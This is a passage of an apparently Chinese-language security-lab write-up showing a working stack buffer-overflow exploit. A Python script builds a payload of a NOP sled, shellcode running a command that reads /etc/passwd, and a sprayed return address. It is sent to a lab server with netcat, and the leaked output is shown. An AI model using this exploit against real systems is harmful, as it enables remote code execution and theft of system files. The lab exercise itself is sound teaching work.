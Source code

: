 ```python
    "/bin/ls -l; echo Hello 32; /bin/tail -n 4 /etc/passwd     *"
    "AAAA"   # Placeholder for argv[0] -- > "/bin/bash"
    "BBBB"   # Placeholder for argv[1] -- > "-c"
    "CCCC"   # Placeholder for argv[2] -- > the command string
    "DDDD"   # Placeholder for argv[3] -- > NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffd708 + 308   # Change this number

# Use 4 for 32-bit address and 8 for 64-bit address
for offset in range(100,304,4):
    content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

其中，

- `ret` 应当大于等于 `0xffffd708`$$+308$$，但应当保证 shellcode 都在 `payload` 内
- `offset` 为 100-300 之间的某个值

然后执行

```shell
./exploit.py
cat badfile | nc 10.9.0.6 9090
```

得到了结果

```plaintext
server-2-10.9.0.6 | Got a connection from 10.9.0.1
server-2-10.9.0.6 | Starting stack
server-2-10.9.0.6 | Input size: 517
server-2-10.9.0.6 | Buffer's address inside bof ():    0xffffd708
server-2-10.9.0.6 | total 764
server-2-10.9.0.6 | -rw------- 1 root root 315392 Jul 10 15:41 core
server-2-10.9.0.6 | -rwxrwxr-x 1 root root  17880 Jun 15 08:41 server
server-2-10.9.0.6 | -rwxrwxr-x 1 root root 709188 Jun 15 08:41 stack
server-2-10.9.0.6 | Hello 32
server-2-10.9.0.6 | gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
server-2-10.9.0.6 | nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
server-2-10.9.0.6 | _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
server-2-10.9.0.6 | seed:x:1000:1000::/home/seed:/bin/bash
```
